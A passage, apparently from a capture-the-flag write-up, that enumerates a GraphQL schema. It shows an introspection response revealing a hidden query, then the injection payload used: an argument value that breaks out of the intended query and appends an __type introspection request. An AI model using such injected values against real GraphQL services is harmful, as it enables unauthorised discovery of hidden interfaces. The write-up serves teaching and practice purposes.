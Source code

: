 **Response:**
```json
{
  "data": {
    [...]
    "injected_query": {
      "fields": [
        {
          "name": "hello",
          "type": {
            "kind": "SCALAR",
            "name": "String"
          }
        },
        {
          "name": "bye",
          "type": {
            "kind": "SCALAR",
            "name": "String"
          }
        },
        {
          "name": "pokemon",
          "type": {
            "kind": "OBJECT",
            "name": "Pokemon"
          }
        },
        {
          "name": "digimOwOUwURawrn38408375018458385023841203489738570123",
          "type": {
            "kind": "OBJECT",
            "name": "Digimon0x000141a0"
          }
        }
      ],
      "name": "Query"
    }
  }
}
```

In the schema, there're 4 queries, which are `hello`, `bye`, `pokemon`, and **`digimOwOUwURawrn38408375018458385023841203489738570123`**.

Huh, the last query name seems very interesting. In that query, **the return object is `Digimon0x000141a0`**. Let's take a look at its arguments.

**Query `digimOwOUwURawrn38408375018458385023841203489738570123` arguments:**
```json
{
  "pokemons": [
    "anything\"){id},injected_query:__type(name:\"Query\"){name,fields{name,type{name,kind},args{name,type{name,ofType{name}}}}}}#"
  ],
  "compares": []
}
```
